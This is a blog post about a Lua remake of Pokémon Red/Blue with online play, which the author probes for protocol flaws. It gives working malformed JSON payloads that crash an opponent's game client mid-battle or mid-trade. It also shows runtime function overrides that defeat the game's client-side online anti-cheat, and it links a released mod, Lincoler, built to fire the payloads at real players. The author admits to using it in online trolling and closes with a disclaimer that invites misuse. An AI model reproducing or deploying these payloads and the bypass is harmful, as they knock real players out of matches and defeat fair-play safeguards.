






> *I was losing. I sent one packet. Their game ends. I won.*


***

## It started with a tweet

I saw [a TweakTown post about Gen1recomp](https://x.com/TweakTown/status/2084526918754263328) and immediately got stuck on the same question I imagine everyone else asked: how did they do this?

Gen1recomp is not a Game Boy emulator with a modern frontend taped to it. It is a reimplementation of Pokémon Red, Blue, and Yellow in LÖVE2D. The original game logic came from a Z80 assembly project; the port reads the ROM, uses its data and assets, and rebuilds the game in Lua. Looking at all of that built on top of a ROM, I had the only honest reaction: *how the fuck did bryanthaboi make this work?*

When I was younger, I spent some time playing around with ROM hacking: making small translations, building memory cheats with ZSNES's memory editor, and doing the kind of kid projects that feel very cool when you get them working. Nothing especially serious, but enough to learn that a ROM was not just a game file. It was something you could poke at, change, and occasionally break in interesting ways.

What I never really got from that era was online link battles that felt native. There were link-over-IP emulator hacks, but they always felt like an emulator feature trying very hard to pretend it was a protocol.

That was what pulled me in. Here was Pokémon Red running as a modern game: a 3D camera if you wanted it, LAN play, an online relay, and actual tournament brackets. It still depended on the ROM, but it had stopped behaving like an emulator project. It felt like somebody had taken the original game apart and given it a second life.


Reading through the code, I noticed that the communication protocol was just JSON messages. That does not make it harmless: in Lua, JSON parsing and the code that consumes the resulting tables can still make a mess of a client. So I kept digging.

Whenever I see a fresh protocol implementation, I want to inspect it. A network protocol is a parser exposed to another machine: bytes need framing, sizes need limits, buffers need allocating, state has to survive between packets, and the receiver has to rebuild structured data from something an untrusted peer sent it. In native code, that is exactly where you go looking for memory corruption. In any language, deserialization and state-machine boundaries are where assumptions tend to accumulate.

Gen1recomp had all of that in one small, readable place: LAN and online transports, JSON decoding, a peer-to-peer state machine, party serialization, lockstep battle messages, trades, and a relay sitting in the middle for online play. That made it a very nice hot zone for research.

And eventually I asked myself the devil's questions. **Could I crash a remote game? Could malformed link data give me control over memory? Was there an RCE hiding in the protocol's deserialization path? Could the protocol be wormable and used to infect thousands of players?**

The project was getting attention on X, people were starting to play it online, and that made the question more interesting. A new protocol, real users, a public relay, and a fresh Lua implementation built around an old ROM? That sounded like a fun place to start digging.

***

## I contributed before I broke it

The project is amazing. That matters here.

Before writing `Lincoler`, I made two mods for Gen1recomp:

- [**Cheat Engine**](https://github.com/hdbreaker/gen1recomp-mod-cheat_engine), a F7 / START-menu toolbox with the usual Pokémon nonsense: healing, XP, spawning, perfect DVs, no encounters, god mode, OHKO, infinite PP and items, movement cheats, and more.

- [**Intro Bypass**](https://github.com/hdbreaker/gen1recomp-mod-intro_bypass), which skips Oak's introduction and drops you into the overworld after choosing a name, starter, shiny flag, and level.

For the original project and source code, see [bryanthaboi/gen1recomp](https://github.com/bryanthaboi/gen1recomp).

Building those mods was useful for a less obvious reason: it meant learning the extension system from the inside. Hooks, event buses, state screens, mod permissions, save state, and the link handshake were no longer abstract parts of the project. They were places I had already worked in.

That is how I found the online anti-cheat toggle. It is also how I found the holes around it.

---

## How Gen1recomp plays online

To understand whether my goal was even viable, I first had to understand what the network protocol is trying to simulate.

The original Game Boy link cable was a physical little wire between two machines. Gen1recomp has to recreate that relationship across a LAN or across the Internet, while still making both games believe they are progressing through the same battle at the same time.

For a LAN match, one player becomes the **HOST**, binds an ENet socket on UDP port 7777, and the other player connects directly to that IP address as the **GUEST**.



Online play takes a different route: both clients make an outbound TCP connection to the public relay at `147.182.215.255:7778`, hosted on DigitalOcean and operated by [@bryanthaboi](https://x.com/bryanthaboi). The **HOST** receives a short room code; 


The **GUEST** enters it; the relay pairs them and forwards traffic between the two connections. It is a raw TCP relay, not an HTTP proxy.



The relay is plumbing. It does not run a battle, decide who wins, or understand Pokémon data. It carries messages. `Net.lua` is the game's networking module — the piece of the client that owns the socket, frames the traffic, and turns raw bytes into Lua tables. Once `Net.lua` has decoded one of those messages, the rest of the client does not care whether it came straight from a LAN peer or through the online relay: it is just a Lua table received from the other side.

On LAN, the game uses `lua-enet`, a library that runs over UDP but guarantees delivery and ordering: every message arrives, and it arrives in the order it was sent. Online play frames the same messages as newline-delimited JSON over TCP. Either way, the protocol above the transport is JSON.

It is only a forwarding point in this flow: the malformed messages in this post target the receiving game client, not the relay itself.

The relay's whole job is to introduce two strangers and then get out of the way. It happens in two phases.

**Phase one — the handshake.** The **HOST** tells the relay it wants to open a room, and the relay answers with a short code. The **GUEST** types that code in, the relay checks it, and tells both sides they are paired:



**Phase two — forwarding.** From that moment on, the relay stops thinking. Every complete JSON line it receives from one side is copied to the other side, verbatim. It never looks inside:



That is the whole relay: a mailbox between two sockets. No battle logic, no validation, no state. Which is exactly why the attack in this post works — the relay will happily forward a message that no legitimate client would ever send.

Before a battle starts, both clients exchange their party data. The **HOST** also provides the shared RNG seed used for the lockstep simulation — the single number both machines use to roll identical "random" results. A normal party message looks like this:

```json
{
  "type": "party",
  "mons": [
    {
      "species": "RATTATA",
      "level": 5,
      "hp": 11,
      "moves": [
        {
          "id": "TACKLE",
          "pp": 35
        }
      ]
    }
  ],
  "seed": 42
}
```

Battles run in lockstep. Both clients simulate the entire fight locally from the same party data and shared RNG seed. Every random event — whether a move hits, whether it crits, how much damage it does — comes from a deterministic formula seeded with that one number, so both machines roll identical results and the two simulations stay in sync. On each turn they exchange an action, simulate the same outcome, and compare a state hash. The relay never needs to understand whether Tackle hit, whether a Pokémon fainted, or whether either result was valid. Both clients do that work independently.

The important part is less elegant: when one player vanishes, the surviving side sees `net.closed` and the match ends as a draw. No winner is declared — the battle drops and the game returns to the overworld.

Understanding this opens the door to a hate cheat. If you are losing a battle, you may be able to close the other player's game instead of taking the loss. A crash is not a draw: the process dies, the socket dies with it, and the other side is left waiting on a peer that will never answer.

So I went looking at how a received message becomes an action. After `Net.lua` decodes a line, `Session:update()` reads `msg.type` and hands the message to the right handler: `LinkState` for the lobby, `LinkBattle` for the fight, `TradeSession` for trades. The only thing validated anywhere is that `msg.type` is a string. Everything else — `slot`, `seed`, `mons`, `index`, `parts`, `pick` — is trusted and fed straight into the simulation.

That is where the controllable variables live: wire fields that reach arithmetic, indexing, or table access with no type check in between. If any of them could steer the remote game's internal state, this is where it would happen.

Before I could turn any of that into a crash, I needed to know what happens when the simulation hits a bad value. Lua has a built-in safety net for exactly this: `pcall` (protected call), the equivalent of try/catch in other languages. Wrap a call in `pcall` and an error inside it becomes a return value instead of a crash. Gen1recomp uses `pcall` all over the place — around ENet calls, file I/O, even the Discord integration.

The game loop is not one of those places:

```lua
-- src/core/Game.lua
if self.linkNet and not self.linkNet.closed then
  self.linkNet:update()
end
self.stack:update(dt)
```

`linkNet:update()` is where a received message gets decoded and dispatched. There is no `pcall` around it, and none around `stack:update(dt)` either. So when a message makes the simulation throw — say, `math.floor({})` — the error does not become a graceful disconnect. It is not converted into a `net.closed` or a draw. It propagates up through the game loop and out of the process. The last thing that player sees is the process closing.

The process dies.

---

## The bug is not clever

Lua does not give you the classic C-family toys. There is no `memcpy`, no stack smash, no pointer arithmetic hidden behind a bad cast.

What it does give you is dynamic typing. A variable does not declare what it holds — the value carries its own type. The JSON parser does not care what a field is supposed to be: `5` becomes a number, `"five"` becomes a string, and `{}` becomes a table. Nothing checks that the field matches what the game expects. The game only finds out when it tries to use the value. If the code assumes an incoming field is numeric — say, it feeds it to `math.floor` or adds it to something — but the sender put a table there instead, the failure happens at that first numeric operation.

The recurring pattern in Gen1recomp looks like this:

```lua
local level = math.max(2, math.min(100, math.floor(packed.level or 5)))
```

The author clearly expected `packed.level` to be a number or absent. But `or` only substitutes the default for `nil` and `false`. A JSON object becomes a Lua table, which is truthy.

So this is legal JSON:

```json
{"level":{}}
```

And this is what the receiver does with it:

```lua
math.floor({})
```

Lua raises `bad argument #1 to 'floor' (number expected, got table)`. The game loop does not catch it. End of process.

The common pattern is easier to see as a taint flow:



---

## The payloads I kept

I found more malformed fields while reading the code. Not all of them are equally useful, and I did not turn every theoretical crash into a menu option — the mod ships eight payload entries, split across the states where they make sense. Three are worth showing, because each one kills the target at a different moment of the match.

### Action recomposition attack

When a player picks a move, the game sends something like this:

```json
{
  "type": "action",
  "kind": "move",
  "slot": 2
}
```

On the other side, the message arrives as a Lua table. `Net.lua` decodes the JSON line, drops it in the inbox, and the battle loop picks it up:

```lua
-- src/link/LinkBattle.lua
for _, msg in ipairs(net:poll()) do
  if msg.type == "action" then
    s.remoteAction = msg
    tryResolve(s)
```

`tryResolve` hands it to `decodeWireAction`, which reads `msg.slot` — the index of the move in the enemy's move list — and resolves it to the actual move:

```lua
local slot = math.max(1, math.min(#battler.curMoves, math.floor(msg.slot or 1)))
return battler.curMoves[slot]
```

That is the whole meaning of the message: *the enemy executed the command for move slot 2 of their Pokémon.* The bounds check keeps the index inside the move list, and `msg.slot or 1` supplies a default when the field is missing.

Now the type confusion. The wire format is JSON, and Lua is dynamically typed: the parser does not know that `slot` is supposed to be a number. It just decodes whatever is there — `2` becomes a number, `"two"` becomes a string, `{}` becomes a table. The only thing validated anywhere is that `msg.type` is a string. So `slot` can be anything JSON can express, and the game will not find out until it tries to use it.

**Example: Unsanitized Input Manipulation**

**Attacker message:**

```json
{
  "type": "action",
  "kind": "move",
  "slot": {}
}
```

**Manipulated parameter:** `msg.slot`

The manipulated parameter is used in the remote game.

**Vuln code:**

```lua
-- src/link/LinkBattle.lua:576
s.remoteAction = msg
-- src/link/LinkBattle.lua:72
local slot = math.max(1, math.min(#battler.curMoves, math.floor(msg.slot or 1)))
```

**Expected result:**

The crash happens when the remote player's game tries to call `math.floor` with a non-numeric value:

```
math.floor({}) -> Math operation over a table CRASH
```

### Hash desync attack

When a turn resolves, both clients send a hash of the simulated outcome to prove they agree:

```json
{
  "type": "hash",
  "turn": 1,
  "value": "25:87:0|94:120:0",
  "parts": {
    "actives": "...",
    "volatile": "...",
    "bench": "..."
  }
}
```

On the other side, the battle loop stores it and runs the determinism check:

```lua
-- src/link/LinkBattle.lua
elseif msg.type == "hash" then
  s.remoteHashes[msg.turn or 0] = msg.value
  s.remoteParts[msg.turn or 0] = msg.parts
  checkHashes(s)
```

`checkHashes` walks the three components — `actives`, `volatile`, `bench` — and compares each one against the local simulation:

```lua
for _, component in ipairs(PARTS) do
  if mine[component] ~= theirs[component] then
```

In plain terms, the peer is saying: *we both simulated the same turn — here is proof the two clients still agree.* `value` is the summary; `parts` is the breakdown.

Now the type confusion. `parts` is supposed to be a table with those three keys. But nothing validates that — the only check anywhere is that `msg.type` is a string. So `parts` can be anything JSON can express, and the game will not find out until it tries to index it.

**Example: Unsanitized Input Manipulation**

**Attacker message:**

```json
{
  "type": "hash",
  "turn": 1,
  "value": "x",
  "parts": 123
}
```

**Manipulated parameter:** `msg.parts`

The manipulated parameter is used in the remote game.

**Vuln code:**

```lua
-- src/link/LinkBattle.lua:580
s.remoteParts[msg.turn or 0] = msg.parts
-- src/link/LinkBattle.lua:370
if mine[component] ~= theirs[component] then
```

**Expected result:**

The crash happens when the remote player's game tries to index a number as if it were a table:

```
123["actives"] -> Indexing a number CRASH
```

So with this payload, the battle resolves normally, the turn plays out, and only then does the target die checking whether the turn was deterministic. The delay is the point: the other client thinks everything is fine.

### Zero-index trade attack

When a player picks a Pokémon to trade, they send something like this:

```json
{
  "type": "pick",
  "index": 1
}
```

On the other side, the trade session stores the pick and moves the negotiation forward:

```lua
-- src/link/Protocol.lua
elseif msg.type == "pick" then
  self.theirPick = msg.index
  self:advance()
```

When both sides have confirmed, the trade is applied — and the pick becomes an index into the party the victim sent:

```lua
local received = self.theirParty[self.theirPick]
received.traded = true
```

Read literally, the message means: *I want the Pokémon at slot N from the party you sent.* The game assumes that index points at a real team member.

Now the type confusion. Lua arrays start at one, but zero is still truthy — and nothing validates that `index` is a positive number. The only check anywhere is that `msg.type` is a string. So `index` can be anything JSON can express, and the game will not find out until it tries to use it.

**Example: Unsanitized Input Manipulation**

**Attacker message:**

```json
{
  "type": "pick",
  "index": 0
}
```

**Manipulated parameter:** `msg.index`

The manipulated parameter is used in the remote game.

**Vuln code:**

```lua
-- src/link/Protocol.lua:323
self.theirPick = msg.index
-- src/link/Protocol.lua:375
local received = self.theirParty[self.theirPick]
-- src/link/Protocol.lua:377
received.traded = true
```

**Expected result:**

The crash happens when the remote player's game tries to read a field from a Pokémon that does not exist:

```
theirParty[0] -> nil.traded CRASH
```

So with this payload, the trade crashes — but it does not steal a Pokémon. The save is written after the trade application path, and the crash happens before the victim's state can commit.

**At this point, all of this research is just an extremely complex way to say F*CK YOU to the person beating your Pokemons behind that stupid remote keyboard.**

## The online anti-cheat bypass

This part was short and easy, but still pretty clever.

Gen1recomp normally blocks online play when a loaded mod changes link-relevant state. The whole gate lives in `src/link/Handshake.lua`, and it comes down to a single question: can this client go online?

```lua
-- src/link/Handshake.lua:124
function Handshake.onlineBlockers(game)
  local blockers = {}
  for _, entry in ipairs(Handshake.mods(game)) do
    local allowed = entry.language and not entry.affectsLink
      and translationOnly(mod, entry.id)
    if not allowed then blockers[#blockers + 1] = entry end
  end
  return blockers
end

-- src/link/Handshake.lua:145
function Handshake.onlineAllowed(game)
  return #Handshake.onlineBlockers(game) == 0
end
```

These three functions form the gate. `linkModified` (line 53) is the broadest check: *has any mod written into a link-surface registry?* `onlineBlockers` (line 124) is the actual list: every enabled mod that is not a verified translation (a translation does not count, because text does not touch the simulation). `onlineAllowed` (line 145) is the single question the client asks before going online: *is that list empty?* If it is not, the client refuses to connect. All of this is local — the relay never sees the decision.

My [Cheat Engine Mod](https://github.com/hdbreaker/gen1recomp-mod-cheat_engine) adds a **CHEATS ONLINE** toggle. With the toggle off, the normal guard remains in place. With it on, the mod saves the originals and replaces the functions at runtime:

```lua
-- cheat_engine/main.lua:121
Handshake.onlineAllowed = function() return true end
Handshake.onlineBlockers = function() return {} end
Handshake.mods = function() return {} end
Handshake.linkModified = function() return false end
```

That is enough to make the local client report itself as vanilla while still running mods. Here is how the lie propagates: when the client pairs, it sends a `hello` message to the peer, and that hello is built by calling `Handshake.mods`, `Handshake.linkModified`, and the fingerprint. Once those functions lie, the hello lies too — the peer reads a vanilla client. And because the mod saved the originals first, turning the toggle off restores the normal guard.

There is no server-side mod validation. The relay does not inspect the handshake. It just moves messages. The anti-cheat decision happens entirely on the client that wants to cheat.

```
F7 → CHEATS ONLINE: [OFF]  ← normal guard
F7 → CHEATS ONLINE: [ON]   ← modded client presents as vanilla
```


---

## Lincoler: turning the bugs into a game menu

With the anti-cheat bypass out of the way, the next step was turning the payloads into a mod: [**Lincoler**](https://rickandmorty.fandom.com/wiki/Abrodolph_Lincoler): part *link killer*, part Rick and Morty reference. The name is stupid in exactly the right way.


It is intentionally small. Lincoler is not a generic fuzzer. It is a state-aware menu that knows where the current online-play session is and exposes only payloads that are meaningful in that state.



`action slot={}` and `action switch idx={}` fire **once, directly**. `hash parts=123`
and `TRADE CRASH pick=0` are **spammed every three frames**.

The battle menu is not the only one. The trade screen has the same weakness, so the menu carries a trade payload too.

The **HOST** gets the pre-battle and pre-trade options because it owns the mode transition and sends the initial party packet. Those payloads are the same family of bugs, one message earlier — but I am not going to dig into them here. The focus of this post is the battle and the trade. If you want to see the HOST payloads, the source is open: [Lincoler on GitHub](https://github.com/hdbreaker/gen1recomp-mod-lincoler). You can trace them yourself.

The lab was two local LÖVE processes on macOS with different `POKEPORT_IDENTITY` values, so their save directories would not collide:

```
POKEPORT_IDENTITY=pokemon-attacker love gen1recomp-src/
POKEPORT_IDENTITY=pokemon-victim   love gen1recomp-vanilla/
```

You can watch Lincoler exploiting the Action recomposition attack bug mid-battle in the video below.

<video src="/images/pokepwn.mov" controls width="100%"></video>

---

## I did look for RCE

A client-killing DoS is funny. Remote code execution would have been a different category of finding entirely.

I traced the obvious Lua/LuaJIT execution surfaces: `load`, `loadstring`, dynamic `require`, `os.execute`, `io.popen`, FFI, metatable tricks, save-file round trips, and mod callbacks receiving remotely supplied Pokémon data.

The result was better than I expected.

The save system is the strongest example. Save files look like Lua source — they are encoded as `return {...}` — which initially looked promising. But they are not loaded with `load()`. `SaveSerializer` has its own restricted grammar parser: scalar literals, escaped strings, plain tables, a depth limit. A nickname that looks like code is still just a string on the way back in.

LuaJIT's FFI is present, but it lives elsewhere: filesystem helpers, Discord IPC, platform-specific shell and SDL work. The link protocol goes through ENet or luasocket. I could not get attacker-controlled link data anywhere near an `ffi.C` call.

There are still secondary denial-of-service findings: an unbounded TCP receive buffer, a slow leak in remote hash storage, and no explicit JSON nesting limit. None was a neat single-message payload, so I did not turn them into menu buttons.

I came in hunting for remote code execution and a wormable payload. I left with a fun toy gun.

It was a fun walk through the project's protocol. I also had some fun with the bug, doing a little online trolling before writing this post.

**@Rubiu5**, you're safe, by the way. 👀

---

> The attack targets a vulnerable game client, not Gen1recomp's relay or any other infrastructure. Do not use it against real players. Or do, IDK — I am a blog post, not your parent.

---

**Relevant source files:**

| File | Role |
|---|---|
| `src/link/Net.lua` | ENet/TCP transport |
| `src/link/Session.lua` | transport wrapper and envelope validation |
| `src/link/Protocol.lua` | Pokémon serialization and trades |
| `src/link/LinkState.lua` | link UI and state machine |
| `src/link/LinkBattle.lua` | lockstep battle implementation |
| `src/link/Handshake.lua` | compatibility and online mod gate |
| `src/core/Game.lua` | game loop |
| `src/core/SaveSerializer.lua` | restricted save parser |

**Repos:**

- Cheat Engine: https://github.com/hdbreaker/gen1recomp-mod-cheat_engine
- Intro Bypass: https://github.com/hdbreaker/gen1recomp-mod-intro_bypass
- Lincoler: https://github.com/hdbreaker/gen1recomp-mod-lincoler
- Gen1Recomp Project: https://github.com/bryanthaboi/gen1recomp
- Upstream branch used for the prepared contribution: `bryanthaboi:dev`

> **AI note.** I used OpenCode as the agent environment, GLM 5.2 for reasoning, and DeepSeek V4 Flash for implementation and test work.